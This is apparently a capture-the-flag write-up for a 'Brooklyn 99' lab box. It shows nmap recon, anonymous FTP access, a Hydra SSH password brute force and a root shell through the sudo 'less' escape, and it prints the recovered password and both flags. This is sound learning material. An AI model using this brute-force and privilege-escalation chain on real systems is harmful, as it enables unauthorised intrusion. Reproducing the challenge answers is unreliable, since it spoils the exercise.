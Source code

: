 # Brooklyn 99

Notes from the CTF!

## Recon

### nmap

`└─# nmap -A 10.10.255.152`

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-19 16:23 UTC
Nmap scan report for ip-10-10-255-152.eu-west-1.compute.internal (10.10.255.152)
Host is up (0.00062s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.53.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 167f2ffe0fba98777d6d3eb62572c6a3 (RSA)
|   256 2e3b61594bc429b5e858396f6fe99bee (ECDSA)
|_  256 ab162e79203c9b0a019c8c4426015804 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:72:96:D5:C3:57 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/19%OT=21%CT=1%CU=43981%PV=Y%DS=1%DC=D%G=Y%M=027296%T
OS:M=64B80E17%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%II=I
OS:%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11N
OS:W7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F
OS:4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.62 ms ip-10-10-255-152.eu-west-1.compute.internal (10.10.255.152)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.66 seconds
```

### FTP

`─# ftp 10.10.255.152`

```
Connected to 10.10.255.152.
220 (vsFTPd 3.0.3)
Name (10.10.255.152:root): anonymous
331 Please specify the password.
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||19054|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||43280|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |**********************************************************************************************************************************|   119       32.58 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (28.44 KiB/s)
```

`└─# cat note_to_jake.txt`

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
## User level access

### Hydra 

`└─# hydra -t 4 -l jake -P /usr/share/wordlists/rockyou.txt 10.10.255.152 ssh`

```
[22][ssh] host: 10.10.255.152   login: jake   password: 987654321
```

### SSH
`└─# ssh jake@10.10.255.152` and I am in the system.

`ee11cbb19052e40b07aac0ca060c23ee` is our user flag.


## Getting root

`jake@brookly_nine_nine:~$ sudo -l`

```
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

https://gtfobins.github.io/gtfobins/less/

```
sudo less /etc/profile
!/bin/sh
```

`#` And that's it! Now we can find `root.txt`

```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

It looked like they hid something with steganography in the website image as well. Proof left to the reader :)
